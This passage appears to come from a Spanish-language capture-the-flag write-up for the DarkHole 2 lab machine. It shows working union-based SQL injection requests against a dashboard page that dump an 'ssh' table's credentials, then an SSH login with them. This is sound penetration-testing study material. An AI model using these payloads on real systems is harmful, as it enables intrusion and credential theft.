 6. Modifico a: ```GET /dashboard.php?id=2'+union+select+1,2,group_concat(column_name),4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+-```. Logro identificar las columnas "id,user,pass" dentro de "ssh".   ![[Pasted image 20251011142414.png]]
   
7. Modifico a: ```GET /dashboard.php?id=2'+union+select+1,2,group_concat(id,0x3a,user,0x3a,pass),4,5,6+from+darkhole_2.ssh--+- HTTP/1.1```. Con esta solicitud puedo verificar el contenido de las columnas de "ssh", encontrando la información: 1:jehad:fool. ![[Pasted image 20251011153737.png]]
   

---
### Verificación opcional - SQLmap| Ataque: SQLi Automático



Con esta información, intuyo que la tabla "ssh" está asociada a la conexión SSH que permite el puerto 22 anteriormente indentificado, para asegurar la información antes de establecer conexión SSH verifico la demás información de la base apoyandome de SQLmap:

## Recuento de información | FASE 2.

Hasta el momento he recolectado la siguiente información relevante: 
- Maquina: Linux | SO: Ubuntu.
- Puerto 22 Abierto: Servicio SSH.
- Puerto 80 abierto: Host - Apache httpd 2.4.41.
	- Página Web: DarkHole V2
	- Subdominios: /.git, /config, /js, /style, /dashboard.
	- Proyecto con git (Leak de crendenciales).
		- commit: a4d900a8d85e8938d3601f3cef113ee293028e10
	- Proyecto con vulnerabilidad en subdominio "/dashboard"
		- Vulnerable a: SQLi		

- Credenciales: 
	- http://172.16.23.128/: lush@admin.com:321
	- ssh: jehad:fool

---

## Escalada de privilegios | Conexión SSH y Reverse Shell

Con toda esta información, lo primero que intento es establecer una conexión SSH con la maquina http://172.16.23.128/ con las credenciales obtenidas de la base de datos "darkhole_2", dando una conexión exitosa. 

Para ello, utilizo el siguiente comando: 
```
ssh jehad@172.16.23.128
```

![[Pasted image 20251011164420.png]]

### FASE 01 - Reconocimiento básico

Una vez dentro de la terminal empiezo a recolectar más información relevante de la misma. para ello, utilizo la siguiente lista de comandos: 
